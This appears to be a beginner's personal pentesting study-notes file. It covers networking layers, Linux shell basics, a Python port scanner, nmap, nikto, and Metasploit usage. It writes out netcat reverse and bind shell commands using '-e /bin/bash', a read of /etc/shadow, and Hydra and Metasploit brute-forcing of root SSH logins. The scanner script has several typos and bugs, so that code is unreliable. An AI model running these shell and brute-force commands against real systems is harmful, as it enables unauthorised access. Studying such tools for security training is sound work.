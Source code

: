 
<h5><bold>
Layer 3 :  <br>
ipv4   <br>
ipv6   <br>
Layer 2: <br>
MAC      <br>
Layer 4:  <br>
TCP   - Connection protocol <br>
UDP  -  Connectionless protocol<br>


Pentesting - Loud and seen
Red team 



DHCP   <br>
temporary address  <br>                                     
static address   <br>
SNMP = Simple Network Management Protocol  <br>




sudo          = super user do                        <br>
sudo su -     = run as administrator                 <br>
cd /<etc>     = cd to the base dir & etc folder cd   <br>
cd ~
ls -la        = Long list                         <br>
d = dir, l = link                                <br>
3 groups:
drwxr-xr-r-x
1st = Owner of the file
2nd  = group ownership 
3rd = all other users

chmod rwx < file name>
chmod 777 < file name>
chmod u+x < file name>
> overwrite
>> append
wc -w < filename>
cat << EOF
wc -w <<< "HElp , just kidding"
echo $?
[ 1 = 1 ]
[ 1 -eq 1 ]
echo $?



sudo adduser < name>                                           <br>
su < name>                                                     <br>
netstat
etc = store system information                                 <br>
echo "Hello write this content here" > hey.txt                 <br>
cat hey.txt                                                    <br>
echo "Hello write this content here" >> hey.txt                <br>

sudo service apache2 start                                     <br>
sudo service apache2 stop                                      <br> 
sudo systemctl enable ssh                                      <br>
sudo systemctl disable ssh                                     <br>
sudo apt update && apt upgrade                                 <br>
ping < ip address> -c 1                                        <br>
ping < ip address> -c 1 > ip.txt
cat ip.txt
cat ip.txt | grep "64 Bytes"
cat ip.txt | grep "64 Bytes" | cut -d " " - f 3                <br> 
cat ip.txt | grep "64 Bytes" | cut -d " " - f 3 | tr -d ":"    <br>
mousepad < filename>&                                          <br>
#!/bin/bash
for ip in \`seq 1 254`: do
ping -c 1 $1.$ip | grep "64 bytes" | cut -d " " .f 4 | tr -d ":" &
done
fi
nc - nvlp 7777



#!/bin/python3
import socket 
HOST = '127.0.0.1'
PORT = 7777
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(HOST,PORT)



import sys
import socket
from datetime import datetime

if len(sys.agrv) == 2:
    target = socket.gethostbyname(sys.argv[1])
else:
    print("Invalid no of arguments")
print("-" *  50)
print("Scanner Target : " + target )
print("Time started : " + str(datetime.now()))
print("-" *  50)

try:
    for port in range(1,65535):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        socket.setdefaulttimeout(1)
        result = s.connect_ex((target,port))
        if result == 0:
            print("Port {port} is open")
        s.close()

except KeyBoardInterrupt:
        print("Existing program")
        sys.exit()

except socket.gaierror():
    prin("Hostname")
    sys.exit()

except socket.error:
    print("Could not connect to a server")
    sys.exit()



site:google  -w    filetype:pdf,xlx



network mapper
most common scanner <br>
nmap -T4 -p- -A < ip address>
nmap -T4 -A -p-53,80,111,443,514  < ip address>
nmap -T4 -p- -A < ip address> -oA client
nmap -sU -T4 < ip address>

T1 - T5 (Speed, T5 may not detect )
-A = (os detectopn... lot of detaiils)
-p-  (all port) (we can also put spceific port)
nmap -sn < ip address>
nikto scan if found the website good firewall might block (not usually)
nikto -h < https://192.168.57.1>   
nikto -h < website address>   
dirbuster
durb
gobuster



RHOST = Remote Host  (Always the victim)
smbclient -L \< ip address>  \\\\< ip address>

Enumeration is a data gathering process wherein a cyber attacker extracts information about a network, such as host IP addresses, DNS and user names, or sharing and network protocols, intending to find weak points and breach the network.
Revsere shell = Victim connect to us (95% time)
Bind shell = We connected to vitim (Externam Assessments)



nc -nvlp 4444                                      (exploiter)               <br>
nc < ip address> 4444 -e /bin/bash                 (victim)                  <br>
nc < ip address> 4444                              (exploiter) 
nc -nvlp 4444 -e/bin/bash                          (victim) 



cat etc/shadow
hydra -l root -P /usr/share/wordlists/metasploit         (double tap)( 2*space )
hydra -l root -P /usr/share/wordlists/metasploit/unix_password.txtssh://< ip address> -t 4 -V


msfconsole
search ssh
search portscan
use auxilary/scanner/ssh/ssh_login
info
options

set ports 1-65535
set rhosts 192.168.1.254
use auxilary/
run
search tomcat


set username root
set passfile /usr/share/wordlists/metasploit/unix_password.txt
set rhosts < ip address>



set threads 10
run 
set verbose true



default webpage : is it meant to be online? poor maintanance


Metasploit



msfconsole  <br>
options
SET RHOST  
We should attack RHOST/S



cp
updatedb
locate < file name>
import
man ls
chmod +x < file name>


netstat -ano
route
history | grep ifconfig
apt install git -y
service apache2 start
service ssh start
service postgresql start

